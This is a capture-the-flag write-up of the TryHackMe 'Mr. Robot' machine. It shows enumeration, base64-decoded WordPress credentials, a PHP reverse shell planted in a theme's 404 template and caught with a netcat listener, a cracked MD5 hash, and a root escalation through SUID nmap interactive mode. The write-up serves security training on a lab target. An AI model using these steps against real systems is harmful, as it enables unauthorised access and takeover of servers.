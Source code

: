 # THM - Mr. Robot CTF

#### Ip: 10.10.67.233
#### Name: Mr. Robot CTF
#### Rating: Medium

----------------------------------------------------------------------

robot.png

```text
Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.67.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 10:18 CDT
Nmap scan report for 10.10.67.233
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.67.233 -p 22,80,443
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 10:19 CDT
Nmap scan report for 10.10.67.233
Host is up (0.12s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.74 seconds
```

Interesting that SSH is being returned as closed here.

Checking out the site we find an interactive page:

site.png

Trying out `robots.txt` we find a couple entries:

robots.png

Heading to http://10.10.67.233/key-1-of-3.txt we find the first flag:

key1.png

We can also download the file fsociety.dic, which appears to be a wordlist:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ head fsocity.dic
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```

If we scan for more directories, we're tipped of that we're dealing with WordPress here.

ferox.png

Feroxbouster also finds a `/license` directory:

license.png

and if we scroll down we find the text:

```text
do you want a password or something?

ZWxsaW90OkVSMjgtMDY1Mgo=
```

This looks like base64, which we can decode in the terminal:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```
Nice! We have some credentials. Lets use these to login to the WordPress site:

login.png

### Exploitation

Once logged in we can navigate to Appearance > Themes, and from there we can copy in a PHP reverse shell into the 404 template:

404.png

Saving that and navigating to http://10.10.67.233/404.php we catch a reverse shell back:

```text
┌──(ryan㉿kali)-[~/THM/Mr_Robot_CTF]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.67.233] 44433
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:47:17 up 33 min,  0 users,  load average: 0.00, 0.02, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ hostname
linux
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

daemon@linux:/$
```

Trying to grab the second key from the `robot` directory we get a permission denied:

```text
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

But we did find a potential password. Lets crack that using crackstation:

crack.png

Cool, we can now use the `su robot` command and grab the second key:

key2.png

### Privilige Escalation

Lets transfer LinPEAS over to the target to help with enumeration:

transfer.png

LinPEAS finds that the SUID bit is set for Nmap. This should make for an easy privesc:

suid.png

Lets head over to https://gtfobins.github.io/ and search for Nmap:

gtfo.png

Cool, this should work for us:

```text
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

All that's left to do is grab the final key:

key3.png

Thanks for following along!

-Ryan

-----------------------------------------------------------------------------
